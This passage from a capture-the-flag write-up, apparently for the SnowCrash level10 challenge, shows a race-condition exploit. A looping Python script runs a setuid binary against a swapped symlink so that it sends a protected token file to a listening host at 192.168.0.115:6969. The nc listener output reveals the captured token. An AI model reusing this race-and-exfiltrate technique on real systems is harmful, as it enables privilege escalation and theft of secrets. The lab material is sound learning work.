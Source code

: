 However, there is still the problem of timing this; so we will use the same technique and simply run the executable until it successfully accesses the file.
For this, let's write another script:

```
[snowcrash@docker] ~/level10/Ressources # cat send_file.py
from subprocess import Popen, PIPE, call

p = Popen(["/bin/bash", "/tmp/create_link.sh"])

while True:
p2 = Popen(["./level10", "/tmp/token", "192.168.0.115"])

[snowcrash@docker] ~/level10/Ressources # scp -P 4242 ./send_file.py scp://level10@192.168.0.169/../../../tmp/send_file.py
send_file.py 100% 179 195.6KB/s 00:00
```

If we create our "trick" file and make all our files in /tmp readable and executable:

```
level10@SnowCrash:~$ echo "WRONG FILE" > /tmp/myfile
level10@SnowCrash:~$ cd /tmp && chmod 777 myfile send_file.py create_link.sh
level10@SnowCrash:/tmp\$ ls -l myfile send_file.py create_link.sh
-rwxrwxrwx 1 level10 level10 177 Oct 25 02:21 create_link.sh
-rwxrwxrwx 1 level10 level10 11 Oct 25 02:29 myfile
-rwxrwxrwx 1 level10 level10 156 Oct 25 02:28 send_file.py
```

We can run our script:

```
level10@SnowCrash:/tmp\$ cd && python /tmp/send_file.py
MY LINK
Connecting to 192.168.0.115:6969 .. Connected!
Sending file .. wrote file!
TOKEN LINK
MY LINK
You don't have access to /tmp/token
Connecting to 192.168.0.115:6969 .. TOKEN LINK
Connected!
Sending file .. wrote file!
(...)
```

Of course, we still need to be listening on the localhost, which displays:

```
[snowcrash@docker] ~/level10/Ressources # nc -lk 6969
._( )_.
WRONG FILE
._( )_.
woupa2yuojeeaaed06riuj63c
._( )_.
WRONG FILE
(...)
```
